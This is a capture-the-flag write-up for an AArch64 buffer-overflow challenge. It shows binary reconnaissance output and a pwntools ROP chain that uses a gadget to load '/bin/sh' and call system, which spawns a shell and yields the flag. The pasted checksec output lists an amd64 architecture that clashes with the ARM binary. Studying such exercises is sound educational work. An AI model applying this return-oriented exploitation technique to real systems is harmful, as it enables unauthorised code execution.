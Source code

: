 # AARCH64:Solution

Even if we hadn't been told this was an arm binary, it was easy to figure it out.
```
file chal.bin 
chal.bin: ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, BuildID[sha1]=aae8ada57f8c7c8ca11580f143633b180affbdbd, for GNU/Linux 3.7.0, not stripped
```

The binary is compiled with NX and Partial RELRO.
```
checksec chal.bin  
[*] '/root/workspace/vuln/aarch64/chal/chal.bin'
    Arch:     amd64-64-little                                                  
    RELRO:    Partial RELRO                                                    
    Stack:    No canary found                                                 
    NX:       NX enabled                                                       
    PIE:      No PIE (0x400000)
```

This is the output from connecting the the remote server
```
```


To find the overflow, I took the easy way and spammed "A"s until the buffer was overflowed. 

To get a shell we need system and /bin/sh. I could find these manually with rabin2. Ex:
```
rabin2 -zz chal.bin | grep bin
34  0x00000fb8 0x00400fb8 81  82   .rodata   ascii   -------------------------------------------------------------------------/bin/sh\n
```

Pwntools is super cool though and since /bin/sh and system are in the binary I can just find them by their name with pwntools and less manual effort.
```
chain += p64(next(e.search(b'/bin/sh')))
chain += p64(e.sym['system']) 
```

This function can be used to populate the registers we need for the exploit, found in binja ([weird machine](https://en.wikipedia.org/wiki/Weird_machine)).
```
sub_31337:
00400854  ldp     x0, x1, [sp], #0x10 {arg1} {arg2}
00400858  ldp     x29, x30, [sp], #0x10 {arg3} {arg_18}
0040085c  ret     
```

We only have one argument to get into the gadget: /bin/sh into the first argument (x0) and fill x1 with 0. Then we have the Frame Pointer and Link Register.
We don't need anything for the frame pointer so we can set that to 0, then we use the link register, which usually has the return address to call system.
```
chain += p64(0x400854)                          # weird machine gadget -> x0, x1, x29, x30

chain += p64(next(e.search(b'/bin/sh')))        # x0 ->find /bin/sh
chain += p64(0)                                 # x1
chain += p64(0)                                 # x29
chain += p64(e.sym['system'])                   # x30 -> call system
```

Don't forget to put the chain in the sendline and spend an hour troubleshooting the chain before you realize like me, then send the chain and get the flag!
```
flag{U_kn0w_you_G0t_1t}
```

Resources:
* Class slides
* Chandler
* https://developer.arm.com/documentation/dui0801/a/Overview-of-AArch64-state/Link-registers
* https://en.wikipedia.org/wiki/Weird_machine
